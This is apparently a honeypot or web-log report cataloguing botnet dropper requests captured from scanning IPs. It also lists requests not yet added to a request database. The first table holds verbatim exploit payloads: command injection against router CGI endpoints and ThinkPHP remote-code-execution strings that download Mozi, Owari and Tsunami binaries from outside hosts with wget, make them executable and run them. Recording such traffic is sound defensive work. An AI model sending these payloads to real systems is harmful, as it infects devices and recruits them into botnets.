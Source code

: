 ## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                                                                     |
|:---------------|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 31.170.22.205  | GET /cgi-bin/live_api.cgi?page=satellite_list&id=&ip=$(cd+/tmp;wget+http://31.170.22.205/dl18;busybox+wget+http://31.170.22.205/dl18;sh+dl18) HTTP/1.1                                                                                      |
| 139.5.1.166    | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://139.5.1.166:50235/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                  |
| 43.230.156.14  | GET /shell?cd+/tmp;rm+-rf+*;wget+http://43.230.156.14:48972/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                               |
| 58.146.59.84   | GET /shell?cd+/tmp;rm+-rf+*;wget+ http://200.129.143.6/Binarys/Owari.arm;chmod+777+/tmp/Owari.arm;sh+/tmp/Owari.arm arm4.jaws HTTP/1.1                                                                                                      |
| 58.58.30.134   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1               |
| 217.160.89.196 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://45.137.70.156/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1     |
| 110.175.39.203 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1 |
| 83.63.8.151    | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1 |
| 84.195.192.75  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1               |
| 90.214.52.113  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1 |
| 51.190.15.243  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1 |
| 82.38.194.39   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
|----:|----------------------:|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  75 |                     5 | GET /config/initializers/oauth.rb HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |